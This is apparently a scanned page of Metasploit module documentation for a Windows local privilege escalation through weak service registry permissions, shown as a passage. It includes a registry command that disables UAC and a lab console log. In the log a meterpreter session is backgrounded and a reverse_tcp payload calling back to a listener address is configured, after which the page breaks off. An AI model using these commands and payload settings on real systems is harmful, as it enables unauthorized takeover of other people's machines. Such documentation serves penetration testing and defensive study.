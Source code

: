 ```
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Windows 7 SP1 x64 (Weak Registry Permissions Technique)

```
msf exploit(windows/local/service_permissions) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: WIN-9NSI4A6AIHJ\aliddle
meterpreter > sysinfo
Computer        : WIN-9NSI4A6AIHJ
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getsystem
[-] 2001: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(windows/local/service_permissions) > set SESSION -1
SESSION => -1
msf exploit(windows/local/service_permissions) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/service_permissions) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(windows/local/service_permissions) > set TargetServiceName rpceptmapper
TargetServiceName => rpceptmapper
msf exploit(windows/local/service_permissions) > set VERBOSE true
VERBOSE => true
msf exploit(windows/local/service_permissions) > show options

Module options (exploit/windows/local/service_permissions):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   AGGRESSIVE  false            no        Exploit as many services as possible (dangerous)
   SESSION     -1               yes       The session to run this module on.
   TIMEOUT     10               yes       Timeout for WMI command in seconds


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
```

[CreateServiceA]: https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea